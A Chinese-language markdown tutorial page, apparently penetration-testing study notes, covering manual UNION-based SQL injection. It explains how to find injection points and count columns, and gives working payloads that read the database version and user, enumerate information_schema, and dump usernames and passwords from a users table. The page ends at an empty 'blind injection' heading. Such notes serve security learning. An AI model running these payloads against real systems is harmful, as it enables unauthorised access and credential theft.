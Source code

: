 ```yaml
---
# 这是页面的图标
icon: token
# 这是文章的标题
title: SQL注入
# 设置作者
author: lhz
# 设置写作时间
time: 2021-08-18
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - SQL注入
comment: false
---
```

## 普通手动注入
 ### 1. 判断是否存在注入点
```
单引号， and 1=1 ，and 1=2 ，双引号，反斜杠，注释等
```
根据报错信息，返回内容判断是否存在sql注入
### 2. 判断是否存在注入点
逐步提高order by 1列号，出现错误时表示超过表的列数
```
order by 1 --
```
### 3. 判断字段的显示位
观察1，2，3的显示位置判断字段显示位
```
union select 1,2,3 --
```
### 4. 获取当前数据库信息
```
database(): 查看当前数据库名称
version(): 查看数据库版本信息
user(): 返回当前数据库连接使用的用户
可以使用group_concat()函数将多个字段连在一起当作一个字段中显示

' union select 1,group_concat(database(),version()),3 -- '
```
### 5. 获取全部数据库信息
Mysql有一个系统的数据库information_schema,里面保存着所有数据库的相关信息
```
获取数据库表信息：ps：table_schema='数据库名'
' union select 1,group_concat(char(32),table_name,char(32)),3 from information_schema.tables where table_schema='security' -- '

获取表信息的列信息：
' union select 1,group_concat(char(32),column_name,char(32)),3 from information_schema.columns where table_name='users' -- '

获取数据：
' union select 1,group_concat(char(32),username,char(32),password),3 from users -- '
```

## 手动盲注
